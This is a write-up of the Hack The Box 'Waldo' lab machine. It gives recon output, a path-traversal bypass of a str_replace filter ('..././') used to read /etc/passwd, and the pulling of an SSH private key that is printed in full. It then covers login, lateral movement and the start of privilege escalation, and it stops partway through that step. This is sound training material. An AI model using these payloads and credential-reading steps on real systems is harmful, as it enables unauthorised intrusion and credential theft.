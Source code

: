 ```yaml
---
layout: menu
title: "HTB Waldo"
description: "10.10.10.87 | 30 pts"
header-img: "boxes/screenshots/14_waldo/waldo.png"
tags: [hackthebox, htb, boot2root, writeup, linux, php, str_replace, ssh, private key, private key authentication, identity file, linux capabilities, capabilities, sbin, getcap, waldo]
---
```


# HTB Waldo (10.10.10.87) MACHINE WRITE-UP

### TABLE OF CONTENTS

* [PART 1 : INITIAL RECON](#part-1--initial-recon)
* [PART 2 : PORT ENUMERATION](#part-2--port-enumeration)
  * [TCP PORT 80 (http)](#tcp-port-80-http)
* [PART 3 : EXPLOITATION](#part-3--exploitation)
* [PART 4 : GENERATE USER SHELL](#part-4--generate-user-shell)
* [PART 5 : LATERAL MOVEMENT (nobody -&gt; monitor)](#part-5--lateral-movement-nobody---monitor)
* [PART 6 : PRIVILEGE ESCALATION (monitor -&gt; root)](#part-6--privilege-escalation-monitor---root)

---

## PART 1 : INITIAL RECON

```console
$ nmap --min-rate 1000 -p- -v 10.10.10.87
  
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

$ nmap -p 22,80 -sC -sV -v 10.10.10.87

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
  | ssh-hostkey: 
  |   2048 c4:ff:81:aa:ac:df:66:9e:da:e1:c8:78:00:ab:32:9e (RSA)
  |   256 b3:e7:54:6a:16:bd:c9:29:1f:4a:8c:cd:4c:01:24:27 (ECDSA)
  |_  256 38:64:ac:57:56:44:d5:69:de:74:a8:88:dc:a0:b4:fd (ED25519)
  80/tcp open  http    nginx 1.12.2
  | http-methods: 
  |_  Supported Methods: GET HEAD POST
  |_http-server-header: nginx/1.12.2
  | http-title: List Manager
  |_Requested resource was /list.html
  |_http-trane-info: Problem with XML parsing of /evox/about

```

---

## PART 2 : PORT ENUMERATION

### TCP PORT 80 (http)

- __`http://10.10.10.87`__:

  ![80 Landing Page](./screenshots/14_waldo/80_landing_page.png)

  __NOTE(S)__:
  - Opening the __List Manager__ makes a POST request to __`dirRead.php`__:
    ```pcap
    POST /dirRead.php HTTP/1.1
    Host: 10.10.10.87
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.87/list.html
    Content-type: application/x-www-form-urlencoded
    Content-Length: 13
    Connection: keep-alive
    
    path=./.list/
    ```

  - Opening a list makes a POST request to __`fileRead.php`__:
    ```pcap
    POST /fileRead.php HTTP/1.1
    Host: 10.10.10.87
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.87/list.html
    Content-type: application/x-www-form-urlencoded
    Content-Length: 18
    Connection: keep-alive

    file=./.list/list1
    ```

---

## PART 3 : EXPLOITATION

- Try reading the contents of __`dirRead.php`__:
  - __`POST /fileRead.php`__ | __`file=./dirRead.php`__:
    ```json
    {"file":"<?php\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\"){\n\tif(isset($_POST['path'])){\n\t\theader('Content-type: application\/json');\n\t\t$_POST['path'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['path']);\n\t\techo json_encode(scandir(\"\/var\/www\/html\/\" . $_POST['path']));\n\t}else{\n\t\theader('Content-type: application\/json');\n\t\techo '[false]';\n\t}\n}\n"}
    ```
    ```php
   <?php

    if($_SERVER['REQUEST_METHOD'] === "POST"){
    	if(isset($_POST['path'])){
    	    header('Content-type: application/json');
    	    $_POST['path'] = str_replace( array("../", "..\""), "", $_POST['path']);
            echo json_encode(scandir("/var/www/html/" . $_POST['path']));
    	}else{
    	    header('Content-type: application/json');
    	    echo '[false]';
    	}
    }
 
    ```
  - __`POST /fileRead.php`__ | __`file=./fileRead.php`__:
    ```json
    {"file":"<?php\n\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\"){\n\t$fileContent['file'] = false;\n\theader('Content-Type: application\/json');\n\tif(isset($_POST['file'])){\n\t\theader('Content-Type: application\/json');\n\t\t$_POST['file'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['file']);\n\t\tif(strpos($_POST['file'], \"user.txt\") === false){\n\t\t\t$file = fopen(\"\/var\/www\/html\/\" . $_POST['file'], \"r\");\n\t\t\t$fileContent['file'] = fread($file,filesize($_POST['file']));  \n\t\t\tfclose();\n\t\t}\n\t}\n\techo json_encode($fileContent);\n}\n"}
    ```
    ```php
    <?php
 
 
    if($_SERVER['REQUEST_METHOD'] === "POST"){
        $fileContent['file'] = false;
        header('Content-Type: application/json');
        if(isset($_POST['file'])){
            header('Content-Type: application/json');
            $_POST['file'] = str_replace( array("../", "..""), "", $_POST['file']);
            if(strpos($_POST['file'], "user.txt") === false){
                    $file = fopen("/var/www/html/" . $_POST['file'], "r");
                    $fileContent['file'] = fread($file,filesize($_POST['file']));
                    fclose();
            }
        }
        echo json_encode($fileContent);
    } 
    ```
    
  __NOTE(S)__:
  - The base directory being used by __`dirRead.php`__ and __`fileRead.php`__ is __`/var/www/html/`__.
  - Reading or listing files outside __`/var/www/html/`__ will not work since the requested directory or file path will just be appended to the base directory.
  - Backwards directory traversal are "avoided" by converting __`../`__ or __`.."`__ to an empty string.
  - This could be bypassed by requesting __`..././`__ which would be converted to __`../`__ since this and other functions like `preg_replace()` are not recursive.

>

- Enumerate files outside the __`/var/www/html/`__ directory:
  - __`POST /fileRead.php`__ | __`file=..././..././..././etc/passwd`__:
    ```json
    {"file":"root:x:0:0:root:\/root:\/bin\/ash\nbin:x:1:1:bin:\/bin:\/sbin\/nologin\ndaemon:x:2:2:daemon:\/sbin:\/sbin\/nologin\nadm:x:3:4:adm:\/var\/adm:\/sbin\/nologin\nlp:x:4:7:lp:\/var\/spool\/lpd:\/sbin\/nologin\nsync:x:5:0:sync:\/sbin:\/bin\/sync\nshutdown:x:6:0:shutdown:\/sbin:\/sbin\/shutdown\nhalt:x:7:0:halt:\/sbin:\/sbin\/halt\nmail:x:8:12:mail:\/var\/spool\/mail:\/sbin\/nologin\nnews:x:9:13:news:\/usr\/lib\/news:\/sbin\/nologin\nuucp:x:10:14:uucp:\/var\/spool\/uucppublic:\/sbin\/nologin\noperator:x:11:0:operator:\/root:\/bin\/sh\nman:x:13:15:man:\/usr\/man:\/sbin\/nologin\npostmaster:x:14:12:postmaster:\/var\/spool\/mail:\/sbin\/nologin\ncron:x:16:16:cron:\/var\/spool\/cron:\/sbin\/nologin\nftp:x:21:21::\/var\/lib\/ftp:\/sbin\/nologin\nsshd:x:22:22:sshd:\/dev\/null:\/sbin\/nologin\nat:x:25:25:at:\/var\/spool\/cron\/atjobs:\/sbin\/nologin\nsquid:x:31:31:Squid:\/var\/cache\/squid:\/sbin\/nologin\nxfs:x:33:33:X Font Server:\/etc\/X11\/fs:\/sbin\/nologin\ngames:x:35:35:games:\/usr\/games:\/sbin\/nologin\npostgres:x:70:70::\/var\/lib\/postgresql:\/bin\/sh\ncyrus:x:85:12::\/usr\/cyrus:\/sbin\/nologin\nvpopmail:x:89:89::\/var\/vpopmail:\/sbin\/nologin\nntp:x:123:123:NTP:\/var\/empty:\/sbin\/nologin\nsmmsp:x:209:209:smmsp:\/var\/spool\/mqueue:\/sbin\/nologin\nguest:x:405:100:guest:\/dev\/null:\/sbin\/nologin\nnobody:x:65534:65534:nobody:\/home\/nobody:\/bin\/sh\nnginx:x:100:101:nginx:\/var\/lib\/nginx:\/sbin\/nologin\n"}
    ```
    ```
    root:x:0:0:root:/root:/bin/ash
    ...omitted...
    operator:x:11:0:operator:/root:/bin/sh
    ...omitted...
    postgres:x:70:70::/var/lib/postgresql:/bin/sh
    ...omitted...
    nobody:x:65534:65534:nobody:/home/nobody:/bin/sh
    ...omitted...
    ```
  - __`POST /dirRead.php`__ | __`path=..././..././..././home/nobody/`__:
    ```php
    [".","..",".ash_history",".ssh",".viminfo","user.txt"]
    ```

---

## PART 4 : GENERATE USER SHELL

- Check for credentials or private keys in the system:
  - __`POST /dirRead.php`__ | __`path=..././..././..././home/nobody/.ssh/`__:
    ```php
    [".","..",".monitor","authorized_keys","known_hosts"]
    ```
  - __`POST /fileRead.php`__ | __`file=..././..././..././home/nobody/.ssh/.monitor`__:
    ```json
    {"file":"-----BEGIN RSA PRIVATE KEY-----\NMIIEOGIBAAKCAQEAS7SYTDE++NHAWB9E+NN3V5T1DP1TYHC+4O8D362L5NWF6CPL\NMR4JH6N4NCCDM1ZU+QB77LI8ZOVYMBTIEY4FM07X4PQT4ZENBFQKWKOCYV1TLW6F\N87S0FZBHYAIZGRNNELLHB1IZIJPDVJUBSXG6S2CXALE14CJ+PNEIRTSYMIQ1NJCS\NDGCC\/GNPW\/AANIN4VW9KSLLQIAEDJFCHY55SCJ5162Y9+I1XZQF8E9B12WVXIRVN\NO8PLGNFJVW6SHHMPJSUE9VJAIEH+N+5XKBC8\/6PCEOWQS9UJRKNZH9T1LJQ4FX1V\NVI93DAQ3BZ3DHIIWAWAFMQZG+JSTHSWOIWR73WIDAQABAOIBADHWL\/WDMUPEW6KU\NVMZHRU3GCJUZWBET0TNEJBL\/KXNWXR9B2I0DHWFG8IJW1LCU29NV8B+EHGP+BR\/6\NPKHMFP66350XYLNSQISHHIRMOSPYDGQVST4KBCP5VBTTDGC7RZF+EQZYEQFDRKW5\N8KUNPTTMNWWLPYYJLSJMSRSN4BQYT3VRKTYKJ9IGU2RRKGXRNDCAC9EXGRUEVJ3Q\N1H+7O8KGEPMKNEOGUGEJRN69HXYHFBEJ0WLLL8WORT9YUMMOX\/05QOOBL4KQXUM7\NVXI2YWU46+QTZTMEOKJOYLCGLYXDKG5ONDFDPBW3W8O6ULVFKV467M3ZB5YE8GES\NDVA3YLECGYEA7JK51MVUGSIFF6GKXSNB\/W2CZGE9TIXBWUQWEEIG0BMQQVX2ZWWO\NV0OG0X\/IROXACP6Z9WGPIC6FHVGJD\/4BNLTR+A\/LWQWFT1B6L03XDSYAIYIWI9XR\NXSB2SLNWP56A\/5TWTPOKFDBGCQRQHVUKWSHLYFOZGQA0ZTMNV71YKH0CGYEAWSSY\NQFFDAWRVVZJP26YF\/JNZAVLCAC5HMHO7EX5ISCVCX86MHQPEYAFCECZN2DFFOPQI\NYZHZGB9N6Z01YUEKQRKNO3TA6JYJ9OJAMF8GZWVUTPZN41KSND4MWETBED4BUAH1\N\/PACW\/+\/OYSH4BWKKNVHKNW36C+WMNOAX1FWQISCGYBYW\/IMNLA3DRM3CIAA32IU\NLROTP4QGAAMXPNCSMIPAGE6CRFVHIUOZ1SFNBV189Q8ZBM4PXQGKLLOJ8B33HDQ\/\NLNN2N1WYTIYEUGA\/QMDKOPB+TUFF1A5EZZZ0UR5WLLWA5NBEALDNOYTBK1P5N4KP\NW7UYNREX6DGOBT2MD+10CQKBGGVQLYUNE20K9QSHVZTU3E9Z1RL+6LLDMZTFC3G9\N1HLMBKDTJJJ\/XAJAZUIOF4RS\/INNKJ6+QYGKFAPRXXCPF9NACLQJAZGAMXW50AQT\NRJ1BHUCZZCUGQABTPC6VYJ\/HLLLZPIC05AIEHDDVTOPK\/0WUY64FDS0VCCAYMMDR\NX\/PLAOGAS6UHBCM5TWZHTL\/HDPROFAR3QKXWZ5XVAYKB90XGIPS5CWUGCCSVWQF2\NDVVNY8GKBM\/OENWHNTLWRTEJ5QDEAM40OJ\/MWCDC6KPV1LJXRW2R5MCH9ZGBNFLA\NW0IKCBUAM5XZGU\/YSKMSCBMNMA8A5NDRWGFEFE+VGDVPARIE0RO=\N-----END RSA PRIVATE KEY-----\N"}
    ```
    ```rsa
    -----BEGIN RSA PRIVATE KEY-----
    MIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl
    mR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f
    87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS
    dGCc/gNpW/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN
    o8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8/6pceowqs9ujRkNzH9T1lJq4Fx1V
    vi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl/wdmuPEW6kU
    vmzhRU3gcjuzwBET0TNejbL/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR/6
    pKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5
    8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q
    1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox/05qoOBL4kQxUM7
    VxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS
    dVa3yLECgYEA7jk51MvUGSIFF6GkXsNb/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO
    v0og0X/iROXAcp6Z9WGpIc6FhVgJd/4bNlTR+A/lWQwFt1b6l03xdsyaIyIWi9xr
    xsb2sLNWP56A/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY
    qFfdAWrvVZjp26Yf/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI
    yzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1
    /pAcw/+/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw/IMnLa3drm3CIAa32iU
    LRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ/
    lnN2n1WyTIyEuGA/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp
    w7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9
    1HLmBkDTjjj/xAJAZuiOF4Rs/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT
    rj1BhUCzZCUgQABtpC6vYj/HLLlzpiC05AIEhDdvToPK/0WuY64fds0VccAYmMDr
    X/PlAoGAS6UhbCm5TWZhtL/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2
    DvVny8gKbM/OenwHnTlwRTEj5qdeAM40oj/mwCDc6kpV1lJXrW2R5mCH9zgbNFla
    W0iKCBUAm5xZgU/YskMsCBMNmA8A5ndRWGFEFE+VGDVPaRie0ro=
    -----END RSA PRIVATE KEY-----
    ```

- Save the private key then change its permissions:
  ```console
  $ chmod 400 .monitor
  ```

- Login via __`ssh`__ using the private key as the user, __`nobody`__:
  ```console
  $ ssh -i .monitor -l nobody 10.10.10.87

  $ id 
   
    uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)

  $ cat user.txt

    3276........................9d24
  
  ```

---

## PART 5 : LATERAL MOVEMENT (nobody -> monitor)

- Re-examine the __`~/.ssh`__ directory:
  - __`authorized_keys`__:
    ```rsa
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzuzK0MT740dpYH17403dXm3UM/VNgdz7ijwPfraXk3B/oKmWZHgk
    fqfg1xx2bVlT6oHvuWLxk6/KYG0gRjgWbTtfg+q3jN40F+opaQ5zJXVMtbp/zuzQVkGFgCLMas014suEHUhkiOkNUlR
    tJcbqzZzECV7XhyP6mcSJFOzIyKrWckJJ0YJz+A2lb8AA0g3i9b0qyUuqIAQMl9yFjnmwInnXrZj34jXHOoXx71vXbB
    VeKu82jw8sacUlXDpIeGY8my572+MAh4f6f7leRtzz/qlx6jCqz26NGQ3Mf1PWUmrgXHVW+L3cNqrdtnd2EghZpZp+a
    rOD6NJOFJY4jBHvf monitor@waldo
    ```
    __NOTE(S)__:
    - The private key from earlier seems to have been created for a user, __`monitor`__.
>
- Connect to __`monitor@waldo`__ via ssh using the __`nobody`__ terminal:
  ```console
  $ ssh -i ~/.ssh/.monitor monitor@waldo -t sh

  $ id 
  
    uid=1001(monitor) gid=1001(monitor) groups=1001(monitor)

  ```

---

## PART 6 : PRIVILEGE ESCALATION (monitor -> root)

- Enumerate the system:
  ```console
  $ echo $PATH
    
    /home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1

  $ ls -l ~/bin
  
    lrwxrwxrwx 1 root root  7 May  3  2018 ls -> /bin/ls
    lrwxrwxrwx 1 root root 13 May  3  2018 most -> /usr/bin/most
    lrwxrwxrwx 1 root root  7 May  3  2018 red -> /bin/ed
    lrwxrwxrwx 1 root root  9 May  3  2018 rnano -> /bin/nano

  $ getcap ~/bin/*

    bash: getcap: command not found

  ```
  __NOTE(S)__:
  - The only binaries to could be executed are the ones inside __`monitor`__'s home directory.
  - The binaries are __*symlinked*__ to the usual directories like __`/usr/bin/`__ and __`/bin`__.
  - The environment variable, __`PATH`__, enables binaries to be executed without calling their __absolute paths__.
  - The limitation could be overcome by actually calling a binary's absolute path or by exporting the other directories to the environment variable, __`PATH`__.
>
- Export the other paths to __`$PATH`__: 


